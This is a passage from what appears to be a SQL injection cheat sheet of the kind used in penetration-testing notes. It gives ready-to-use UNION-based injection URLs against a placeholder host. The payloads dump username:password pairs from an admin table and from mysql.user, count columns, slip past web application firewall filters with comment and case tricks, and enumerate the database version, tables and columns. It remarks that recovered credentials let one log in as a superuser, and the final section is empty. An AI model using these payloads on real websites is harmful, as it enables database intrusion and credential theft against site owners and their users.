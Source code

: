 - Now you must complete query to look nice for that you can use concat() function (it joins strings).
````
http://$ip/news.php?id=5 union all select 1,concat(username,0x3a,password),3 from admin/*
````
- Note that I put 0x3a, its hex value for : (so 0x3a is hex value for colon)
- There is another way to do that, char(58), ascii value for a colon
````
http://$ip/news.php?id=5 union all select 1,concat(username,char(58),password),3 from admin/*
````
- Now you get displayed username:password on screen, i.e admin:admin or admin:somehash when you have this, you can login like admin or some superuser :D if can't guess the right table name, you can always try mysql.user (default) it has user and password columns, so an example would be
````
http://$ip/news.php?id=5 union all select 1,concat(user,0x3a,password),3 from mysql.user/*
````
### Test number of columns and Watch for any Error
````
http://$ip/artists.php?artist=1 order by 1,2,3,4
http://$ip/artists.php?artist=1 order by 1,2,3,4 -- LIMIT 1
http://$ip/artists.php?artist=1 -1 union all select 1/*
http://$ip/artists.php?artist=1 -1 union all select 2/*
http://$ip/artists.php?artist=1 -1 union all select 3/*
http://$ip/artists.php?artist=1 -1 union all select 4/*
````
### Test Injectable columns - Watch for visual Indicators (WAF filters)
````
http://$ip/artists.php?artist=1 -1 union all select 1,2,3,4
http://$ip/listproducts.php?cat=1 -1 /*!UNiOn*/ /*!SeLEct*/ 1,database(),3,4,5,6,7,8,9,10,11
 http://$ip/listproducts.php?cat=1%20%20-1%20%20%20/**//*!12345UNION%20SELECT*//**/%201,database%28%29,3,4,5,6,7,8,9,10,11
 http://$ip/listproducts.php?cat=1%20%20-1%20%20%20%20/**//*!50000UNION%20SELECT*//**/%201,database%28%29,3,4,5,6,7,8,9,10,11
http://$ip/listproducts.php?cat=1%20%20-1%20%20/**/UNION/**//*!50000SELECT*//**/%201,database%28%29,3,4,5,6,7,8,9,10,11
http://$ip/listproducts.php?cat=1%20%20-1%20%20%20/*!50000UniON%20SeLeCt*/%201,database%28%29,3,4,5,6,7,8,9,10,11
--*See the 'Web filter Bypass Keywords' below for more*--
````
### Enumerate Information
````
http://$ip/artists.php?artist=1 union all select 1,@@version,3,4
http://$ip/artists.php?artist=1 union all select 1,hex(unhex(@@version)),3,4
http://$ip/artists.php?artist=1 union all select 1,convert(@@version using latin1),3,4
````
### Enumerate Database
````
http://$ip/artists.php?artist=1 union all select 1,database(),3,4
````
### Enumerate Tables
````
http://$ip/listproducts.php?cat=1 -1 union all select 1,2,3,4,5,6,7,8,table_name,10,11 from information_schema.tables
````
### Enumerate Columns
````
http://$ip/artists.php?artist=1 -1 union select all 1,2,column_name,4 from information_schema.columns where table_schema='database' and table_name='table_name' LIMIT 1,1 -- - LIMIT 1
````
### Enumerate RAW Data
````
````